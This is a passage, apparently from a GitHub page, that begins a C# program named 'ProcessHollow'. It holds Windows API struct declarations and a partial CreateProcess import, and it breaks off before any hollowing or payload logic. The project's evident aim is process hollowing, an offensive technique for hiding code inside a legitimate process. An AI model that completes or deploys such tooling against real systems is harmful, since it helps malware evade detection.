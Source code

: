 
It is worth noting that a memory address takes up eight bytes in a 64-bit process, while it only uses four bytes in a 32-bit process, so the use of variable types, offsets, and amount of data read must be adapted.

```csharp
using System;
using System.Runtime.InteropServices;

namespace ProcessHollow
{
    class Program
    {
        // http://www.pinvoke.net/default.aspx/Structures/SECURITY_ATTRIBUTES.html
        [StructLayout(LayoutKind.Sequential)]
        public struct SECURITY_ATTRIBUTES
        {
            public int nLength;
            public IntPtr lpSecurityDescriptor;
            public int bInheritHandle;
        }

        // http://www.pinvoke.net/default.aspx/Structures/STARTUPINFO.html
        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        // http://www.pinvoke.net/default.aspx/Structures/PROCESS_INFORMATION.html
        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        // http://www.pinvoke.net/default.aspx/kernel32/CreateProcess.html
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern bool CreateProcess(
            string lpApplicationName,
            string lpCommandLine,
            ref SECURITY_ATTRIBUTES lpProcessAttributes,
            ref SECURITY_ATTRIBUTES lpThreadAttributes,
            bool bInheritHandles,
            uint dwCreationFlags,
```